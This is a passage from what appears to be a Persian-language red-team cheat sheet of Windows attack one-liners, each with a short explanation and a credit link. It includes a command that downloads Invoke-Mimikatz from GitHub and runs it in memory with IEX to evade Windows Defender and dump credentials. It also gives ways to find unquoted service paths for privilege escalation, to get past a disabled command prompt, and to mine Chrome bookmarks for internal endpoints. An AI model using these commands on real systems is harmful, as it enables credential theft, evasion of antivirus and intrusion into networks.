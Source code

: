 ```bash
Get-CIMInstance -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```  

**توضیح:** *'یافتن مسیرهای سرویس بدون کوتیشن (Unquoted) بدون استفاده از PowerUp'* <br> 
**اعتبار:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)  <br>
**لینک:** [Twitter](https://twitter.com/Alh4zr3d/status/1579254955554136064) <br> 

### [🔙](#tool-list)Bypass a disabled command prompt with /k  
*دور زدن خط فرمان غیرفعال شده با استفاده از /k*  <br>

```bash
# Win+R (برای باز کردن کادر Run)
cmd.exe /k "whoami"
```  

**توضیح:** *'این خط فرمان توسط مدیر سیستم شما غیرفعال شده است...' این پیام معمولاً در محیط‌هایی مانند کیوسک‌های عمومی دیده می‌شود. یک راه حل سریع و hacky، استفاده از سوئیچ /k از طریق کادر Run ویندوز است. این دستور، دستور شما را اجرا می‌کند و سپس پیام محدودیت را نشان می‌دهد و در نتیجه اجرای دستور را ممکن می‌سازد.*  <br>
**اعتبار:** Martin Sohn Christensen  <br>
**لینک:** [Blog](https://improsec.com/tech-blog/the-command-prompt-has-been-disabled-by-your-administrator-press-any-key-to-continue-or-use-these-weird-tricks-to-bypass-admins-will-hate-you)  <br>

### [🔙](#tool-list)Stop windows defender deleting mimikatz.exe  
*جلوگیری از حذف فایل mimikatz.exe توسط Windows Defender* <br>

```bash
(new-object net.webclient).downloadstring('https://raw.githubusercontent[.]com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')|IEX;inv
```  

**توضیح:** *'از پاک شدن mimikatz.exe توسط Windows Defender خسته شده‌اید؟ این روش را امتحان کنید.'*  <br>
**اعتبار:** [@GuhnooPlusLinux](https://twitter.com/GuhnooPlusLinux)  <br>
**لینک:** [Twitter](https://twitter.com/GuhnooPlusLinux/status/1605629049660809216)  <br>

### [🔙](#tool-list)Looking for internal endpoints in browser bookmarks  
*یافتن نقاط پایانی داخلی در بوکمارک مرورگر* <br>

```bash
type "C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"
```  

**توضیح:** *'شاید باور نکنید ولی فقط از روی بوکمارک‌های مرورگر کاربر می‌توان نقاط پایانی داخلی و منابع حساس را شناسایی کرد.'*  <br>
**اعتبار:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)  <br>
**لینک:** [Twitter](https://twitter.com/Alh4zr3d/status/1595488676389171200)<br>

### [🔙](#tool-list)Check if you are in a virtual machine
*بررسی اینکه آیا در یک ماشین مجازی هستید یا خیر*<br>
